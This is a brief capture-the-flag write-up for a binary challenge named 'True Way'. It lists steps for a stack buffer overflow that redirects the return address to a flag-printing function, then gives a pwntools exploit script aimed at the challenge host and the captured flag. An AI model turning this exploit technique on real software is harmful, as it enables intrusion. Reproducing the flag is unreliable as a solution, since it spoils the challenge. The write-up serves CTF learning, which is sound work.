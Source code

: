 ## True Way 正路

Decompile program<br>
=> find char[256] and scanf() at main<br>
=> buffer overflow<br>
=> check program<br>
=> lot of wayXX function<br>
=> way45() will show flag after checking a bool `obstacle`<br>
=> var on main char[256] + int32 (8byte)<br>
=> buffer overflow rewrite return address to way45()<br>
=> gdb find address of way45<br>
=> record the address after if check<br>
=> create payload

```py
from pwn import *
import struct

server_address = "chal.polyuctf.com"
port = 31338
conn = remote(server_address, port)

offset = b'a' * 256 + b'b' * 8
return_address = struct.pack("<Q", 0x401cae)
payload = offset + return_address
conn.sendline(payload)

conn.interactive()
```

PUCTF24{y0u_5k1pp3d_7h3_0b574cl3_f1nd_7h3_c0rr3c7_w4y_01e79b412e58108b7738c1b5369d7b04}
